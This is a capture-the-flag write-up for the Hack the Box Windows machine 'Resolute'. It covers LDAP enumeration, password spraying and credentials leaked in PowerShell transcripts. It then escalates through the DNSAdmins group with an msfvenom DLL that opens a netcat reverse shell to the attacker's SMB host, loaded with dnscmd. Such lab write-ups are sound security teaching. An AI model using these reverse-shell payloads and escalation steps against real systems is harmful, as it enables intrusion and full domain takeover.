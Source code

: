 +++
author = "Nick"
categories = ["hack the box", "windows", "WinRM", "dll injection", "dns admin", "hydra", "evil-winrm", "smb"]
date = 2020-05-30T14:56:00Z
description = ""
draft = false
thumbnail = "/images/2019/12/resolute.png"
slug = "hack-the-box-resolute"
tags = ["hack the box", "windows", "WinRM", "dll injection", "dns admin", "hydra", "evil-winrm", "smb"]
title = "Hack the Box - Resolute"

+++


Welcome back everyone! Today we are going to be doing the machine Resolute on Hack the Box. This is a Windows machine with a medium difficulty. Let's jump in!

As usual, start with the standard `nmap`: 
```bash 
nmap -sC -sV -T4 -p- -oA resolute 10.10.10.169`
``` 
Here are our results:
```
Host is up (0.24s latency).
Not shown: 990 closed ports
PORT     STATE SERVICE      VERSION
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2019-12-09 19:23:46Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m00s, deviation: 4h37m08s, median: 7m00s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2019-12-09T11:24:29-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2019-12-09T19:24:35
|_  start_date: 2019-12-09T18:37:33

```

We can start by checking to see if we can enumerate `LDAP` anonymously. To do that we issue: `ldapsearch -x -h megabank.local`

![](/images/2019/12/image-44.png)

We get a response back. So we now know that if we combine our leaked FQDN with our search string, we can start searching the structure.

Command:
```ldapsearch -x -h megabank.local -b 'dc=megabank,dc=local'```

This gives us 270 entries, so we save that output. We can further define our search with `LDAP` queries attached to `ldapsearch`. We want to get just users right now.

Command:
`ldapsearch -x -h megabank.local -p 3268 -b 'dc=megabank,dc=local' "(&(objectClass=user))"`

We can save that output and start parsing through it. We have an interesting note on one of the accounts.

![](/images/2019/12/image-45.png)

I wonder if this password is still valid. It's not, however, a common tactic is to reuse a password for a group of new users. So in this case we try to use the same password for all of the accounts that we found. We get one, ```Melanie```. You can also send a currated listed through `Hydra` to spray all the accounts.

![](/images/2019/12/resolute_spray.gif)

We login as Melanie and get our user flag from her Desktop. We start to look around the box and see a PSTranscripts folder. Inside this is another folder that has the logging output of a script that has been run. Inside the script, we have credentials for ```Ryan```.

![](/images/2019/12/image-46.png)

We can now login as Ryan. We do some more enumeration and see that Ryan is part of the DNSAdmins group.

![](/images/2019/12/image-47.png)

If you've been a System Administrator or on a Red Team you know this is a valid path to escalation. [Here](https://adsecurity.org/?p=4064) and [here](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) are two quick articles on the topic. So our goal here is to create a malicious dll file with `msfpc` or `msfvenom`. Host it on an `smb share`. Then tell our DNS system to load the dll. This should then execute our payload and connect back to us.

This payload is slightly different than the normal ones we use. This time we are also embedding our command to call.

Command:
`msfvenom -p windows/x64/exec cmd='\\10.10.15.129\share\nc.exe 10.10.15.129 80 -e cmd.exe' -f dll > rootme.dll`

Now we need to move it to where we will host our SMB share. For me thats the Tools directory. We also want to make sure we have a copy of `netcat` for Windows on our share as well. Since our payload calls back to our share to use it.

Command:
`impacket-smbserver -smb2support share .`

This spins up our SMB share called 'share'. Now we just need to get our payload loaded. Within Windows we can use the `dnscmd.exe` tool from the CLI. We tell it to load the payload.

Command:
`dnscmd resolute /config /serverlevelplugindll \\10.10.15.129\share\rootme.dll`

A quick breakdown of this command:
`dnscmd` is the tool we are calling.
`resolute` is the server hostname.
`/config` issues a config wipe for the zone.
`/serverlevelplugindll` tells the system to load a specific plugin.

Once we've loaded our malicious dll, we need to restart the DNS services.

Command:
`sc.exe \\Resolute stop dns`
then
`sc.exe \\Resolute start dns`

We should then see our SMB Share light up, followed by our Netcat session.

![](/images/2019/12/resolute_root.gif)

We are in as root! Off to the root flag! Box complete.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

